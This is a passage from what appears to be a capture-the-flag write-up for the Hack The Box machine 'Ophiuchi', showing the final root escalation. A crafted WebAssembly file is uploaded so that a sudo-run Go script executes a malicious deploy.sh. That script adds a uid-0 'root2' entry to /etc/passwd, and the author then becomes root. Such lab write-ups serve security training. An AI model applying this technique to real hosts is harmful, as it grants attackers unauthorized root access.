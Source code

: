 ```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ bin/wat2wasm ../main.wat -o ../test.wasm
```

Decompiling the new wasm file resulted in a function returning info equals to 1, allowing to control `index.go`:

```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ bin/wasm-decompile ../test.wasm 
export memory memory(initial: 16, max: 0);

global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 1
}
```

To conclude, the **new wasm file was uploaded** to the target and the **go script was executed** saying it was **Ready to deploy** the malicious `deploy.sh` script. An arbitrary root2 user was successfully injected and it was used to escalate to root:

```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ scp ../test.wasm admin@10.10.10.227:/home/admin/main.wasm  
admin@10.10.10.227's password: 
test.wasm												100%  112     2.0KB/s   00:00

admin@ophiuchi:~$ ls
deploy.sh  main.wasm  user.txt
admin@ophiuchi:~$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy

admin@ophiuchi:~$ tail /etc/passwd
...
admin:x:1000:1000:,,,:/home/admin:/bin/bash
root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash

admin@ophiuchi:~$ su root2
Password: evil
root@ophiuchi:/home/admin# whoami && hostname && cat /root/root.txt && ifconfig -a
root
ophiuchi
96adc130ebd6b788b72b64b358cb0cab
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.227  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:c237  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:c237  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:c2:37  txqueuelen 1000  (Ethernet)
        RX packets 5443  bytes 456406 (456.4 KB)
        RX errors 0  dropped 39  overruns 0  frame 0
        TX packets 2998  bytes 2858019 (2.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 9778  bytes 707444 (707.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
```